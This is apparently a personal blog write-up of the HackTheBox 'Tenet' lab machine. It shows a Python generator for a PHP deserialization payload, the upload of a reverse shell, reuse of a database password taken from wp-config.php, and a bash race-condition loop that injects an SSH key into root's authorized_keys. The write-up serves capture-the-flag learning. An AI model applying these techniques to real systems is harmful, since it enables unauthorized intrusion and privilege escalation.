









# Overview

I am completely confuddled by the ratings of HackTheBox machines lately... Besides Delivery, the latest Easy boxes should of been rated as Medium and vice versa...

*Tenet was not an exception to this rule.*

However, I am not gonna lie but I did really enjoy this box! The PHP deserialization attack for initial foothold was simple yet sweet. It was also noice to flex some BashFU for root as well.

I will jump straight into it since this is a fairly quick box.

---

## Initial Foothold

Now I could of assumed that the box had a web server and SSH open, since most boxes have those ports open. Alas, I went down the conservative route and just did the usual Nmap scan.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-17 09:51 AWST
Nmap scan report for tenet.htb (10.10.10.223)
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

Like 99% of the time, the SSH port would not give me an attack vector in *(yet)*, so I visited the website at http://tenet.htb/ after adding `tenet.htb` to my `/etc/hosts` file.



Seems like another boring Wordpress blog, but it looks like a certain dev called `neil` was peeved off by the main blogger.



If you cannot see the comment from `neil` in the screenshot above, here it is.

> did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!

*Poor Neil and his plights as a developer.*

I would of felt more sorry for Neil if he demonstrated better OP sec, but thanks to them I knew I would have to find a file called `sator.php` (this was an educated guess).

Most of you reading this know that it is good practice to add the domain of the box to `/etc/hosts` for enumeration purposes, for an example `tenet.htb`. What took me a solid hour to realise is that *just maybe* there is more information on the default site besides the virtual hosts...

I spent over an hour fuzzing for `sator.php` on `tenet.htb`, when actuality it was sitting right in front of me at http://10.10.10.223/sator.php ...



*Oooo I surely do like reading about databases on the boxes I am attacking!*

After wasting about another hour trying to find this backup that `neil` mentioned, I finally found the backup of `sator.php` at http://10.10.10.223/sator.php.bak. If you didn't know this beforehand, the `.bak` extension is commonly used on Linux boxes for backup files; which I did forget about for a bit.

````
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
````

**ooooooooooooOOOOOOOOOOOOooooooooooooo**

*This code looks ripe for a good old PHP deserialization attack!*

What is PHP serialization you might ask? <s>If you know about it just skip a bit.</s>

Well, the simplified question is how do you send the state of an instance of a class in Object Oriented Programming (OOP) languages? In PHP, this is done by expressing the state of the instance as a formatted string.

Alright hear me out, let us use the code of `sator.php` as an example and get the serialized string of the `$app` instance of `DatabaseExport` using the below code snippet.

*payload_gen.php*
```
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
	//	echo 'Gotta get this working properly...';
	}
}

$app = new DatabaseExport;
$app -> update_db();

echo serialize($app)."\n";

?>
```

```
ghostccamm@kali:~/Desktop/hackthebox/machines/tenet/get_init$ php payload_gen.php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"users.txt";s:4:"data";s:7:"Success";}
```

So we can now see how the objects of the `DatabaseExport` class are serialized.

* The 'O' at the start is to signal that the serialized string is an Object of a class.
* The '14' is the number of letters in the name of the Class that the Object is an instance of. In this case it is `DatabaseExport`.
* The '2' is the number of properties that the object has.

The following '`{}`' block then expresses the names of the properties and the values of them as well. So for the `user_file` property of `$app`, the name of the property is a string (`s`) and is 9 characters and its value is also string.

Still confused? You probably are since I only gave a brief introduction on PHP object serialization. Check out this [Medium Article by Vickie Li](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) where she went into far greater detail about PHP serialization and how you can exploit it.

Getting back to Tenet now, we can modify the `user_file` and `data` properties from the serialized string we send using the GET parameter `arepo`.

**This means that we can save a PHP file onto the webserver!**

I wrote a neat little Python script that will construct the payload that I will send to the server. The serialized string needed to be URL encoded as well, since it is sent as a GET parameter in the URL.

```
import sys, urllib.parse

def main(filename):
    lines = []

    data = ""

    for line in sys.stdin:
        data = data + line

    payload = 'O:14:"DatabaseExport":2:{{s:9:"user_file";s:{}:"{}";s:4:"data";s:{}:"{}";}}'.format(len(filename), filename, len(data), data)

    print(urllib.parse.quote_plus(payload))


if __name__ == "__main__":
    try:
        filename = sys.argv[1]
    except:
        print("You need to give a file name!")
        sys.exit(1)

    main(filename)
```

I then just piped the `php-reverse-shell.php` file that comes pre-packaged with Kali Linux as my payload and uploaded it onto the box.



Now chucking that payload into the `http://10.10.10.223/sator.php?arepo=<payload here>`, I was able to upload my reverse shell and get initial foothold!



**nooooOOOooooiice**

---

# Getting User

Well after all of this talk about databases, I decided to look for some database credentials. Heading over to `/var/www/html/wordpress/wp-config.php` I found what I was looking for.

```
$ cat /var/www/html/wordpress/wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

Now I would normally check the contents of the database first, but for some reason I decided to see if I could login as `neil` with the password "Opera2112" (oh by the way he is a user on the box).



**Lo and behold! I got neil's account!**

To be honest, I felt like wasted all that time with the enumeration and PHP serialization attack that I did earlier where I could of easily bruteforced neil's password with a good educated guess of the password...

*Like "Opera" is literally in the icon for the box...*


Oh well... I learnt the lesson to always blast boxes with `hydra` and ignore HackTheBox rules. I assume some script kiddie out there was pretty darn happy that for the first time ever bruteforcing SSH works from the very start (if they had a big enough brain to make a good enough wordlist).

---

# Getting Root

After I got in as `neil`, one of the first things I checked was running `sudo -l`.



Well that sudoers entry looked way to juicy to ignore, so I took a closer look at `/usr/local/bin/enableSSH.sh`.

*enableSSH.sh*
```
neil@tenet:~$ cat /usr/local/bin/enableSSH.sh
#!/bin/bash

checkAdded() {

	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

		/bin/echo "Successfully added $sshName to authorized_keys file!"

	else

		/bin/echo "Error in adding $sshName to authorized_keys file!"

	fi

}

checkFile() {

	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

		/bin/echo "Error in creating key file!"

		if [[ -f $1 ]]; then /bin/rm $1; fi

		exit 1

	fi

}

addKey() {

	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

	(umask 110; touch $tmpName)

	/bin/echo $key >>$tmpName

	checkFile $tmpName

	/bin/cat $tmpName >>/root/.ssh/authorized_keys

	/bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded

```

Oh that is a pretty neat <s>but so unrealistic</s> bash script there. I immediately noticed that the key stored inside at `/tmp/ssh-XXXXXXXX` is then copied to `/root/.ssh/authorized_keys`, which was exactly what I wanted. Only thing was that I wouldn't know the name of temp file preemptively, but if I was quick I could chuck in my SSH public key instead of the one in `enableSSH.sh`.

I decided to bust out my BashFU and try to get my SSH key in. I used the command `find /tmp -name "ssh-*" -maxdepth 1 2>/dev/null` to list all of the temp ssh files and just piped my SSH key into them. Below is my exploit bash script that I wrote and uploaded to the box. I knew that it had executed successfully if when I ran `sudo enableSSH.sh` it returned back with "Error in adding $sshName to authorized_keys file!".

```
while :;
do
	files=`find /tmp -name "ssh-*" -maxdepth 1 2>/dev/null`
	for p in $files
	do
		echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzKUsFpNACl75KbSr4trd57XlBGm+x7FB8Jo0eWUuBITVLYu1UHpck+UcAclH4sWPRHUlUMB9zzi4mvX0PEniWb14rC49M0om8I+/7vhtSUiOJ/DC/U/Cb8t05Y5nOkmwAAhb0mlyXFq3OprFKRKCzPMNY2OChdLndyw+V8y53OsVEjzUuFNOo+2J/B8kYLxW+MRKWxEugjpY7CZF9m6fqAFo0caSjYh9454/2OaItCOqwQD06dedPQQbp7yZRv4y//ST6NjX96S3xlPX6oZU4mkJxmgn4S+ufcczSvDT6HEfHDgF1+7GoZn3szQvLH5CCV3GH0a8aC9NLWrPXCVgeUxQMlEBV4kSyPaTeuiW66mDu5+4+nQ3XYjKm/jLDQzs5+IKpbYn/5NpKoRmktP4kAcmMFoFrUVZC9d1lQDmTKcF3ZJVG6KgW68+Xwj+RmIdiLSufeXdkbudInYeTBXCeLEO1nAetQj1kaPp7DFN6+tLPmg+C9UDqNfnl8cCzB3c= ghost@yourshell" > $p;
		echo "Dumped Payload Into $p"
	done
done
```



**nnnnoooooooOOOOOooooooooooiiiiccceeee**

All that was left to do was SSH in.



**nnnnooooooo000000000OOOOOOOOOO000000000ooooooooooiiiiccceeee**

---

# Conclusion

Yeah this was a definitely a fun, quick, nice box. Although it was (once again) more like playing a CTF than something realistic, it was still an enjoyable and educational experience. I knew about PHP deserialization attacks beforehand from watching YouTube videos on the topic <s>(Papa Bless you IppSec)</s>, but I never done one in HackTheBox before.

Cheers for the sweet box egotisticalSW!
